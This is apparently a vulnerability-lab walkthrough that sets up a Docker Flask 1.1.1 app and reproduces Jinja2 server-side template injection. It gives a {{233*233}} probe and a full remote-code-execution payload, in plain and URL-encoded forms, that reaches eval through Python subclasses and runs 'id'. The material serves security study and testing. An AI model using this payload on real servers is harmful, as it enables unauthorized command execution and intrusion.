

Flask (Jinja2) Server-Side Template Injection¶
Flask is a popular Python web framework that uses Jinja2 as its template engine. A Server-Side Template Injection (SSTI) vulnerability can occur when user input is directly rendered in Jinja2 templates without proper sanitization, potentially leading to remote code execution.
References:
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates
Environment Setup¶
Execute the following commands to build and start a Web application based on Flask 1.1.1:
docker compose up -d
After the server starts, visit http://your-ip:8000/ to view the default page.
Vulnerability Reproduction¶
First, verify the SSTI vulnerability exists by visiting:
http://your-ip:8000/?name={{233*233}}
If you see the result 54289, it confirms the presence of the SSTI vulnerability.
To achieve remote code execution, you can use the following POC that obtains the eval function and executes arbitrary Python code:
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("id").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
Visit the following URL (with the POC URL-encoded) to execute the command:
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
The command execution result will be displayed:
